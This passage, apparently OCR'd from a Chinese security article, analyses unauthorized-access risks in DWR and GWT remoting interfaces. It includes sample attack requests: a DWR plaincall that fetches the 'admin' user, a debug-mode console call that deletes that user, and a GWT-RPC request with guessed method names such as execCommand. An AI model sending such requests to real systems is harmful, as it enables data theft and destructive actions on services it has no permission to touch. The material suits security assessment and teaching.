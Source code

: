 **风险接口**  
：  
```
/dwr/index.html
/dwr/test/xxx.dwr

```  
#### 2.2.2 未授权访问漏洞  
  
DWR接口调用协议分析：  
```
POST /dwr/call/plaincall/UserService.getUser.dwr HTTP/1.1
Content-Type: text/plain

callCount=1
nextReverseAjaxIndex=0
c0-scriptName=UserService
c0-methodName=getUser
c0-id=0
c0-param0=string:admin

```  
  
**攻击向量**  
：未授权调用任意Java方法，可能导致数据泄露或系统命令执行。  
#### 2.2.3 Debug状态下的问题  
  
当debug模式开启时，可直接通过浏览器控制台调用方法：  
```
// 控制台攻击示例
dwr.engine._execute('/dwr', 'UserService', 'deleteUser', 
    ['admin'], function(data){console.log(data)});

```  
### 2.3 GWT接口安全分析  
#### 2.3.1 未授权访问风险  
  
GWT接口识别特征：  
```
POST /app/rpc/UserService HTTP/1.1
X-GWT-Permutation: 4A3B2C1D
Content-Type: text/x-gwt-rpc

7|0|6|http://target/app/|...|getUser|1|admin|2|

```  
  
**攻击面**  
：  
1. 接口路径枚举：/rpc/UserService  
, /rpc/AdminService  
  
1. 方法名猜测：getUser  
, deleteUser  
, execCommand  
  